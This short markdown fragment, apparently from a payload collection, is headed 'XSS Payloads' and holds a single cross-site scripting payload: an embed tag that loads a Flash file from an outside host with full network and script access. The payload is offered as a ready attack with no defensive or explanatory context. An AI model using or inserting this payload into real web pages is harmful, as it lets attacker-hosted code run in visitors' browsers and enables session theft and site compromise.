 # XSS Payloads
--------------------------------------


`<embed src="http://hikerell.cn/exp/xss.swf" allownetworking="all" allowscriptaccess="always">`
